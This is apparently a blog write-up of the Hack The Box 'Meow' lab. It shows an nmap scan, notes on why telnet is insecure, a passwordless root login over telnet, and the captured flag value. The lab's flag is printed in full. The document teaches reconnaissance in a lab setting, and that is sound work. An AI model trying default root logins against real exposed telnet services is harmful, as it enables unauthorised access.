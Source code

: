```yaml
---
title: "Hack The Box - Meow"
date: 2022-10-10T00:26:33+05:30
draft: false
description: " Meow from HackTheBox is an retired machine which is vulnerable to Telnet and security Misconfiguration, which can be easily exploited with help of Basic Recon "
hideToc: false
tocPosition: outer
enableToc: true
enableTocContent: false
author: Atom
authorEmoji: ✍️
tags:
- Telnet
series:
- Starting Point Tire 0
categories:
- Very Easy
- HackTheBox
- Linux
libraries:

image: /images/hackthebox/meow/Meow1.png 
---
```

Hi Hackers Welcome Back, Today we are going to look at Hack The Box Meow Machine.

## Info Table
<table style="width:100%">
 <thead>
  <tr>
    <th>Room Name</th>
    <th>Meow</th>
  </tr>
</thead>
<tr>
    <td>Category</td>
    <td>Hack The Box</td>
    </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
    </tr>
  </tr>
   <tr>
    <td>Difficulty</td>
    <td>Very Easy</td>
    </tr>
    <tr>
    <td>Maker</td>
    <td>Hack The Box</td>
    </tr>
    <tr>
    </tr>
</table>

## Kill Chain Summery
While enumerating ports and services we can able to find the port 23 ware open. while trying to connect with default or well known usernames. Telnet ware get logged in without using password.

## Mind Map 
{{< img src="/images/hackthebox/meow/mm.png" alt="image alt" width="1000px"  position="center" >}}

## Recon 
Lets start with Initial scan.

```bash 
atom@atom-VirtualBox:~/htb/meow$ sudo nmap -sC -sV -O 10.129.144.166 -oN initial.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-10 01:16 IST
Nmap scan report for 10.129.144.166
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/10%OT=23%CT=1%CU=30227%PV=Y%DS=2%DC=I%G=Y%TM=634325
OS:3C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:101%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%
OS:O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2
OS:=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNS
OS:NW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=
OS:N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%
OS:CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.80 seconds
atom@atom-VirtualBox:~/htb/meow
```

Telnet is considered insecure due to lacking the ability to encrypt the data being sent through it securely. This implies that an attacker with access to a network TAP (Traffic Access Point) could easily intercept the packets being sent through a Telnet connection and read the contents, be they login credentials, sensitive files, or anything else. Telnet, which runs on port 23 TCP by default, has mainly been replaced by its more secure counterpart, SSH , running on port 22 TCP by default.

SSH, which stands for Secure Shell Protocol, adds the required layers of authentication and encryption to the communication model, making it a much more viable approach to perform remote access and remote file transfers. It is used both for patch delivery, file transfers, log transfer, and remote management in today's environment.

SSH uses public-key cryptography to verify the remote host's identity, and the communication model is based on the ``` Client-Server architecture ``` , as seen previously with FTP, SMB, and other services. The local host uses the server's public key to verify its identity before establishing the encrypted tunnel connection. Once the tunnel is established, symmetric encryption methods and hashing algorithms are used to ensure the confidentiality and integrity of the data being sent over the tunnel.

Lets we try to connect Telnet port 23 using some well-known default usernames and password like ubuntu, administrator,user,root ... 

```bash
atom@atom-VirtualBox:~$ telnet 10.129.143.226 23
Trying 10.129.143.226...
Connected to 10.129.143.226.
Escape character is '^]'.
root

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 09 Oct 2022 04:55:58 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.143.226
  IPv6 address for eth0: dead:beef::250:56ff:fe96:1afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
```
we successfully get logged in. let's dig for a flag 

```bash 
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# whoami
root
root@Meow:~# 

```